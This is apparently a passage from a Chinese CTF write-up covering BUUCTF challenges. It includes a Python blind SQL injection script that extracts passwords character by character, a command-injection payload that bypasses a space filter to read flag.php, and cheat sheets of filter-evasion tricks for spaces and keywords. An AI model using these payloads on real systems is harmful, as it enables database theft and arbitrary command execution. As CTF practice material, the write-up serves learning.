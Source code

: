 ```py
            str += j
            print(str)
            break
    print(i)
```

这是大佬的代码
```py
url = 'http://0d8c0a68-b3a4-431f-84f6-cc398fbe1ab5.node3.buuoj.cn/search.php?'
flag = ''
for i in range(172,250):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload = 'http://d63d924a-88e3-4036-b463-9fc6a00f4fef.node3.buuoj.cn/search.php?id=1^(ascii(substr(database(),%d,1))=%d)#' %(i,mid)
        payload = "http://0d8c0a68-b3a4-431f-84f6-cc398fbe1ab5.node3.buuoj.cn/search.php?id=1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" %(i,mid)
        res = requests.get(url=payload)

        if 'ERROR' in res.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid ==32 or mid ==127):
        break
    flag = flag+chr(mid)
    print(flag)
```

# [GXYCTF2019]Ping Ping Ping
首先打开网页发现
![在这里插入图片描述](img/20210616133546872.png)
输入/?ip=127.0.0.1返回ping的信息。执行代码发现/?ip=127.0.0.1|ls flag.php 发现空格被ban
经过一番尝试最后看的大佬的wp
`/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`
## 过滤空格的方法
```py
%20(space)、%09(tab)、$IFS$9、 IFS、IFS
使用<或者<>来绕过空格 cat<a.txt
花括号扩展{OS_COMMAND,ARGUMENT} {cat,/etc/passwd}
$IFS 空格绕过 cat$IFSa.txt
变量控制 X=$'cat\x09./flag.php
```

## 关键词过滤
```py
使用空变量 使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(我尝试小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 ca${21}t a.txt
反斜杠 ca\t a.txt
变量替换 a=ca;b=t;c=a.txt; a a ab $c
引号 c'a't flag.php
编码绕过
Base64 编码绕过：
root@kali:~/# echo 'cat a.txt'| base64 Y2F0IGEudHh0Cg==
root@kali:~/# echo 'Y2F0IGEudHh0Cg==' | base64 -d abc
十六进制编码绕过：
root@kali:~/# echo 'cat a.txt' | xxd -p 63617420612e7478740a
root@kali:~/# echo '0x63617420612e7478740a'| xxd -r -p Abc
通配符 ？*
```